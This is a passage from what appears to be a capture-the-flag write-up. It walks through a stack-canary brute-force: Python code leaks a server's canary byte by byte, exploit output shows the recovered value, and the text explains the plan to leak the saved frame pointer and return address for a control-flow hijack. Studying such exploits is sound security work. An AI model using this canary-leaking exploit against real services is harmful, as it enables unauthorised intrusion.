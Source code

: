 ```python
            return prefix + test_byte


def main():
    payload = "davide"
    payload += "B" * (1032 - len(payload))

    leak_next_byte(payload)

if __name__ == "__main__":
    main()
```

We have a small function that sends a payload and reports if the payload is good (by checking if the server returned the "Username found!" message). If the server fails - no message will be sent back and we would know that we have broken the stack canary.<br>
We use `leak_next_byte` to leak the next 8 bytes from the stack:

```python
def leak_canary(prefix):
    payload = prefix
    for i in range(8):
        payload = leak_next_byte(payload)
    return payload[-8:]
```

```
$ python exploit.py 
Found: 0xd
Found: 0xcc
Found: 0x75
Found: 0xf0
Found: 0x95
Found: 0xff
Found: 0x6c
Found: 0xcb
Canary:
0xcb6cff95f075cc0dL
```

Note: the canary we display is the canary after XORed with `0xd`. This is because our byte that we test are XORed and then placed to the canary.

### What's past the canary?
After the canary there's the old frame pointer. Which usually we find it insignificant because we want to go straight ahead to override the return address which located right after it.

But in here, we do not have enough stack space for a long ROP chain like in ROPme, we can override the buffer (1032 bytes), the canary (1040), the old rbp (1048) and the return address (1056) and *that's it*.

Before we think about how to jump around in the program, let's use the previous technique to leak the old RBP on the stack as well as the return address.<br>
We can do that because if we want to receive "Username found!" from the server, the `main()` function would need the right stack pointer set to load values from the stack to those `write` calls. if we mess it up even a little bit, we can notice it in our client side by not receiving the message.
